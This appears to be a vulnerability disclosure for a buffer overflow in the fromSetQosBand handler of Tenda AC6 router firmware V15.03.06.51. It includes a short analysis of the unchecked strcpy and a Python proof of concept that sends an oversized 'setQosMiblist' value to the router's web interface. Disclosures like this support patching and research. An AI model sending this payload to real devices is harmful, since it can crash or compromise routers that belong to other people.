 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/9.png)

get value from list ,send to setQosMiblist

![](../Tenda_AC10U_V1/10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetQosBand"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'setQosMiblist': payload})
``` 
